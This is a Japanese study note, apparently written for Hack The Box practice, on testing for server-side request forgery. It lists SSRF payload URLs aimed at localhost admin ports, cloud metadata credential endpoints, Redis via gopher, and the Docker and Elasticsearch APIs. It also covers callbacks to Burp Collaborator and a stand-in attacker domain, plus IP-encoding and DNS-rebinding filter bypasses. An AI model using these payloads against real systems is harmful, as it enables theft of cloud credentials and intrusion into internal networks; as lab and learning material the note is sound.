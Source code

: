 ```yaml
---
{"dg-publish":true,"permalink":"//ssrf/"}
---
```


### **SSRF（Server-Side Request Forgery)

SSRF（サーバーサイドリクエストフォージェリ）は、攻撃者がサーバーに不正なリクエストを送信させ、内部ネットワークや非公開のAPIにアクセスさせる脆弱性
## **SSRFを疑うべきケース**

SSRFの可能性がある状況

1. **ユーザーが指定したURLに対してサーバーがリクエストを送る機能がある**
    
    - **画像のURLプレビュー**  
        → ユーザーがURLを入力すると、画像を取得して表示する
    - **Webhooksの登録**  
        → ユーザーがWebhookのURLを指定すると、サーバーがリクエストを送る
    - **APIリクエストの中継（Proxy機能）**  
        → 外部APIと連携するシステム（例: OpenGraph、RSSリーダー）
2. **外部サービスとの通信を行う機能がある**
    
    - **PDF生成機能**  
        → WebページをPDFに変換するサービス（URLを直接指定できる場合が多い）
    - **クラウド関連の操作がある** → AWSやGCP環境のメタデータにアクセスできる可能性がある
    - **URLフィルタリングが甘いAPI**  
        → 任意のURLにリクエストを送れる（API GatewayやOpen Redirectが存在）
3. **エラーメッセージにリクエスト結果が表示される**
    
    - **リダイレクトが発生する**
    - **リクエスト先のエラーメッセージがレスポンスに表示される**

---

## **SSRFの検証方法**

まずSSRFかもと思ったら、下を試す前に怪しまれないように確認する方法
→自分(攻撃者側)の端末にリクエストを飛ばさせる
netcatで待機
```
nc -lvnp 5555
```
`http://自分のIP:5555`にアクセスして、nc側にリクエストが飛んでくるかを確認する
リクエストが飛んできた場合
→SSRFの脆弱性がある

下に進む

### **1. 内部ネットワークアクセスを試す**

まず、内部サービスへのアクセスを確認するために、ローカルアドレスにリクエストを送る。

#### **基本的なSSRFテスト**

入力フォームやAPIエンドポイントに、以下のURLを試す。

```bash
http://127.0.0.1/
http://localhost/
http://192.168.1.1/
http://10.0.0.1/
http://[::1]/
```

→ 何らかのレスポンスがある場合、内部アクセスが可能な可能性が高い。

#### **管理パネルのチェック**

SSRFで管理パネルやアプリケーションにアクセスできるかを調査

```bash
http://localhost/admin
http://127.0.0.1:8000/
http://127.0.0.1:8080/
http://127.0.0.1:5000/
http://127.0.0.1:9001/ (Supervisor)
```

→ 404以外のレスポンスや特定の管理画面のレスポンスが返ってきたら脆弱性あり。

---

### **2. クラウドメタデータの取得**

クラウド環境（AWSやGCPなど）のメタデータサーバーが取得できるか試す。

#### **AWSのメタデータ**

```bash
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

→ IAMクレデンシャルが取得できる場合、EC2の特権情報を取得できる。

#### **GCPのメタデータ**

```bash
http://metadata.google.internal/computeMetadata/v1/
```

→ GCPのインスタンス情報が取得できる。

#### **Azureのメタデータ**

```bash
http://169.254.169.254/metadata/instance?api-version=2021-01-01
```

---

### **3. SSRF to RCE（リモートコード実行）**

一部のシステムでは、SSRFを利用してリモートコード実行（RCE）につながることがある。

#### **Redisへのアクセス**

Redisのデフォルトポート `6379` にアクセスできるかを試す

```bash
http://127.0.0.1:6379/
gopher://127.0.0.1:6379/_%2A1%0D%0A$4%0D%0Ainfo%0D%0A
```

→ Redisにアクセスできるなら、後続の攻撃が可能。

#### **Elasticsearchへのアクセス**

```bash
http://127.0.0.1:9200/_cat/indices
```

→ もしElasticsearchのデータが取得できるなら、内部情報を抜き出せる。

#### **Docker APIの利用**

Dockerが動いているかを確認：

```bash
http://127.0.0.1:2375/images/json
```

→ コンテナ作成が可能なら、RCEのチャンス。

---

### **4. DNS Exfiltration（データ流出の確認）**

SSRFを利用して、攻撃者が制御するサーバーにリクエストを送らせることで、外部通信が可能かを確認する。

#### **Burp Collaborator / Interactsh**

Burp CollaboratorやInteractshを使い、サーバーが外部へリクエストを送信するかを確認

```bash
http://your-burp-collaborator-id.burpcollaborator.net/
http://your-interactsh-id.interact.sh/
```

→ もしサーバーがリクエストを送信してきたら、外部通信が可能な証拠。

---

### **5. Bypass Techniques（フィルタ回避）**

一部のサーバーでは、SSRFを防ぐために「`localhost` へのリクエスト禁止」などの制限がある。以下の方法でバイパスを試す。

#### **IPアドレスのエンコード**

```bash
http://2130706433/  # 127.0.0.1 を整数表記
http://0x7F000001/  # 127.0.0.1 を16進数
```

#### **DNS Rebinding**

一部のサーバーでは、外部ドメインから内部へリクエストを送れるようになる。

```bash
http://attacker-controlled-domain.com/
```

→ DNSリバインディングを利用し、`localhost` へリダイレクト。

### 最終奥義 : Burpsuiteでブルートフォースで管理用ポートを探し出す
ここでは、内部向けの公開されていない空いているポートを探す
Burp SuiteのIntruderを使って、すべてのポートで試す
こんな感じで、該当部分をIntruderに送って、画像内の80の部分を「1~65535」で探す。
(*なんかFreeバージョンだと制限かかって動かなそう)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145732.png)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145941.png)

(なんかFreeバージョンだと制限かかって動かなそう)
pythonで同じことをする

---
## **まとめ**

HTBでSSRFを調査する際は、以下の流れでテストするとよい：

1. **内部ネットワークへのアクセスを試す**（`localhost`、`127.0.0.1` など）
2. **クラウドメタデータの取得を試す**（AWS、GCP、Azure）
3. **SSRFからのRCEを狙う**（Redis、Docker、Elasticsearch）
4. **DNS Exfiltrationを試す**（Burp Collaborator / Interactsh）
5. **フィルタ回避を試す**（IPエンコード、DNSリバインディング）

**内部APIやクラウド情報を抜き取ることで、次の攻撃につなげる** ケースが多いので、SSRFの発見は重要！